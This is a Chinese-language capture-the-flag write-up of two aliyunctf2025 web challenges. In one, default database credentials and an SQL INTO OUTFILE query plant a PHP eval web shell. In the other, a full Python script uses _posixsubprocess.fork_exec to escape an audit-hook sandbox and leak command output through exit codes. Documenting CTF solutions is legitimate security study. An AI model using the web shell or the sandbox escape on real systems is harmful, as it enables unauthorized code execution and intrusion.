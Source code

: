 ```yaml
---
title: aliyunctf2025
date: 2025-02-25 14:26:16
tags:
categories: 比赛复现
---
```


## WEB

### 打卡OK

#### 非预期

我们扫描目录，发现有个发现adminer_481.php

我们使用数据库的默认账号密码 root/root 登录

![image-20250225145640808](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502251456939.png)

我们尝试写入shell

```
select "<?php @eval($_POST[1]); ?>" into outfile "/var/www/html/1.php";
```

![image-20250225152316446](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502251523491.png)

用蚁剑进行连接

![image-20250225152619678](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502251526749.png)

在根目录里找到flag



### ezoj

我们在页面的最下面找到了一个`/source`

我们访问/source能看到OJ的源码，从源码中我们可以发现,OJ在执行时，会使用audithook限制代码行为。限制方法为白名单，只允许`["import","time.sleep","builtins.input","builtins.input/result"]`的事件执行。

> `sys.addaudithook` 是 Python 3.8 引入的一个函数，它允许你注册一个“审计钩子”（audit hook）。审计钩子是一个回调函数，当 Python 中的特定事件发生时，它会被调用。这可以用于调试、日志记录或安全审计等目的。

先尝试获取python版本，发现OJ会将程序的退出码回显给用户，可以利用这个回显信息。

 

获取了`sys.version_info`的三个值后，可以得到python版本`3.12.9`。

根据白名单的内容，允许导入模块，但是导入其他模块需要用到compile和exec，因此只能导入内部模块。

在内部模块中发现了[_posixsubprocess](https://github.com/python/cpython/blob/3.12/Modules/_posixsubprocess.c)，该模块能够`fork_exec`执行任意命令同时内部没有触发审计。

由于题目不出网而且也无法直接回显，因此需要把执行程序的标准输出读出来。在源码中可以发现c2pwrite参数会重定向到子进程的标准输出

```py
  if (c2pwrite == 1) {
        if (_Py_set_inheritable_async_safe(c2pwrite, 1, NULL) < 0)
            goto error;
    }
    else if (c2pwrite != -1)
        POSIX_CALL(dup2(c2pwrite, 1));  /* stdout */
```

因此使用下面的脚本，执行命令并将结果写入到退出码中。

```py

import requests

URL = "http://10.253.253.1/api/submit"
CODE_TEMPLATE = """
import _posixsubprocess
import os
import time
import sys

std_pipe = os.pipe()
err_pipe = os.pipe()

_posixsubprocess.fork_exec(
    (b"/bin/bash",b"-c",b"ls /"),
    [b"/bin/bash"],
    True,
    (),
    None,
    None,
    -1,
    -1,
    -1,
    std_pipe[1], #c2pwrite
    -1,
    -1,
    *(err_pipe),
    False,
    False,
    False,
    None,
    None,
    None,
    -1,
    None,
    False,
)
time.sleep(0.1)
content = os.read(std_pipe[0],1024)
content_len = len(content)

if {loc} < content_len:
    sys.exit(content[{loc}])
else:
    sys.exit(255)
"""

command="ls /"
received = ""

for i in range(254):
    code = CODE_TEMPLATE.format(loc=i,command=command)
    data = {"problem_id":0,"code":code}
    resp = requests.post(URL,json=data)
    resp_data = resp.json()
    assert(resp_data["status"] == "RE")
    ret_loc = resp_data["message"].find("ret=")
    ret_code = resp_data["message"][ret_loc+4:]
    if ret_code == "255":
        break
    received += chr(int(ret_code))
    print(received)

```

